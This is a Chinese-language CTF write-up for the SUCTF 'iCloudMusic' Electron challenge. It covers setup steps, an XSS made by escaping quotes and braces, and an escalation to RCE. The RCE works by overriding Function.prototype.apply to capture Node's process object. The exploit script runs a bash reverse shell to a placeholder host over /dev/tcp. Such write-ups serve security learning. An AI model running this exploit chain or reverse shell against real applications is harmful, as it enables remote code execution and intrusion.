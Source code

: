 # SUCTF iCloudMusic

## 搭建方式

* 进入dockers目录，运行`docker-compose up -d` 
* 进入iCloudMusic, 运行`npm install && npm start`

## Writeup

第一步的XSS不难，js_to_run中直接将歌单信息拼接到js中，引号+大括号逃逸即可。

拿到XSS怎样转化为RCE则考察怎样通过覆盖js原生函数来泄漏preload.js运行的node环境中的一些变量/函数等，这里有两种方法

* 思路1 暴力重写js所有原生函数
以Function.prototype.apply为例

```js
Function.prototype.apply2=Function.prototype.apply;
Function.prototype.apply=function(...args){
    for(var i in args)
        if(args[i])
        console.log(args[i].toString());
    return this.apply2(...args);
}
```

进入view的devtool,执行这个函数后，尝试执行request.get一个url，可以在console中找到`process`.因此便可以将我们的覆盖脚本改写为：
```js
Function.prototype.apply2=Function.prototype.apply;
Function.prototype.apply=function(...args){
    if(args[0]!=null && args[0]!=undefined && args[0].env!=undefined){
        Function.prototype.apply=Function.prototype.apply2;
        args[0].mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/XXXXXX/8080 0>&1"');
        }
        return this.apply2(...args)
}
request.get('http://www.baidu.com/',null)
```

* 思路2 白盒审计

request库/http库/其他很多node库都有可能调用process相关的函数，其中process下有这样一个函数`nextTick`
```js
ƒ (...args) {
            process.activateUvLoop();
            return func.apply(this, args);
        }
```
可以看到process.nextTick中调用了func.apply,即Function.prototype.apply,且参数this正是`process`本身。
在http库中处理socket请求的一个关键函数即调用了这个函数
```js
ClientRequest.prototype.onSocket = function onSocket(socket) {
  process.nextTick(onSocketNT, this, socket);
};
```
request库处理请求都使用http库，且request库本身也多次调用了这个函数
```js
var defer = typeof setImmediate === 'undefined'
  ? process.nextTick
  : setImmediate

```
知道这一点我们便可以直接给出我们同上的利用脚本。



